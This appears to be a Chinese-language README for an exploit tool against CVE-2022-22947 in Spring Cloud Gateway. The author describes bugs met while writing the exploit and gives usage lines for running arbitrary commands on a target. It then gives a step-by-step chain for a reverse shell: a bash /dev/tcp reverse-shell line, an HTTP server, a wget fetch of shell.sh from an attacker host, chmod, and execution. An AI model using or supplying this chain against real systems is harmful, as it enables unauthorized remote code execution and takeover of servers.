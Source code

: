 # 工具介绍

嘛。天天在外面跑项目，终于抽点时间研究一下这个漏洞的poc了。

**这东西吧有点问题，如果 ~~输错命令~~ 或者 ~~输入的命令不存在~~ (就是有些命令是需要安装才有的)再或者 ~~输入的命令没有返回结果~~ ，就会返回上一条命令的结果。嘛没办法。不是exp的问题。**

就随便写了一个。辣鸡。大佬看着辣眼睛请绕过。

写这个exp的时候碰到了很多的问题把。

1. 网上的有个poc的那个是这样写。多了一个new String[]。然后发现不能执行带有空格的命令，想了好些办法，比如空格绕过$IFS呀啥的都不行。然后看到另一个poc可以。想不通在哪找了好多地方的问题。还以为是我写错了。最后仔细对比才发现。使用的地方差了一点点。

![image-20220304141150921](images/image-20220304141150921.png)

2. 这个rui的http里面的东西虽然可以瞎写好些。但是如果没写http:// 就不行。一开始我写漏了。就写了一个127.0.0.1结果失败了。

![image-20220304141538271](images/image-20220304141538271.png)

# 工具的使用

使用:

```
python CVE-2022-22947.py 目标 "执行的命令"
```

![image-20220304140157102](images/image-20220304140157102.png)

![image-20220304140213492](images/image-20220304140213492.png)


反弹直接执行反弹shell的命令好像是不行的。

我是先新建了一个shell.sh，然后在文件中写入反弹shell的命令。
```
bash -i >& /dev/tcp/ip/prot 0>&1
```
然后在shell.sh的目录下，用python开启一个http服务。
```
python3 -m http.server 8080
```
再然后用wget下载一个shell.sh。
```
python CVE-2022-22947.py 目标 "wget http://xxxxx:8080/shell.sh"
```
再再然后给一个文件的执行权限。
```
python CVE-2022-22947.py 目标 "chmod +x shell.sh"
```
最后执行shell.sh文件。
```
python CVE-2022-22947.py 目标 "bash shell.sh"
```
这样就把shell反弹出去了。
